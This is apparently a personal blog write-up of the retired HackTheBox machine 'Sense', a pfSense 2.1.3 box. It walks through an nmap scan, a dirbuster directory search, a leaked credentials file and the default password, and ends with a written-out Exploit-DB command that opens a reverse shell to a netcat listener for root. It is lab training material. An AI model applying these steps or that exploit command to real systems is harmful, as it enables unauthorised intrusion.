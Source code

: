 ```yaml
---
title: Sense Hackthebox Writeup
date: 2020-12-28 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [FreeBSD,pfsense,dirbuster,pfsense 2.1.3]     # TAG names should always be lowercase
image: /assets/img/sense-hackthebox/sense-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Nibbles:~$


Column | Details
------------ | -------------
Name | Sense
IP | 10.10.10.60
Points | 20
Os | FreeBSD
Difficult | Easy
Creator | [lkys37en](https://www.hackthebox.eu/profile/709)
Out on | 21st October 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Used `dirbuster` to find the hidden directories, two of them are `changelog.txt` and `system-users.txt`.
* Got `Credentials` to login to the dashboard on `port 80`
* Exploiting the `vulnerable` version of `pfSense 2.1.3`, to get Root.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/sense-hackthebox/nmap-scan-1.png)

From a `quick scan` we came to know that `2 Ports` are open i.e. `80 and 443`. On accessing port 80 we are redirected to `443 page` where we get a `login page` of *pfSense*.

___
![](/assets/img/sense-hackthebox/port-80-2.png)

Using `dirbuster` to find hidden directories. **Wordlist Used**: *directory-list-2.3-medium.txt* and **File Extension**: *php,txt,html*.

___
![](/assets/img/sense-hackthebox/dirbuster-3.png)

We got `two useful directories` which I checked out.

**Accessing**: `https://10.10.10.60:443/changelog.txt`, we can see some messages here.

___
![](/assets/img/sense-hackthebox/changelog-txt-4.png)

**Accessing**: `https://10.10.10.60:443/system-users.txt`, we got some credentials *Username*: `Rohit` and *Password*: `company defaults`. I googled about default credentials for `pfSense` and found it as **pfsense**, Hence the *password* they are talking about is `pfsense`.

___
![](/assets/img/sense-hackthebox/system-users-ticket-5.png)

Loging into the dashboard with the credentials mentioned above.

___
![](/assets/img/sense-hackthebox/pf-sesne-loggedin-8.png)

We got to know the `pfSense` version running which is `2.1.3`. I googled about the version vulnerabilities and found this:

[Exploit found](https://www.exploit-db.com/exploits/43560)

___
![](/assets/img/sense-hackthebox/exploit-db-9.png)

Dowloaded the `exploit` on my machine and ran it. *Make sure you use the username as rohit and not Rohit.*

**Exploit Command**: *python3 43560.py --rhost=10.10.10.60 --lhost=10.10.X.X --lport=1233 --username=rohit --password=pfsense*

Listening on the port specified using `nc`. We got `Root`.

___
![](/assets/img/sense-hackthebox/got-root-10.png)


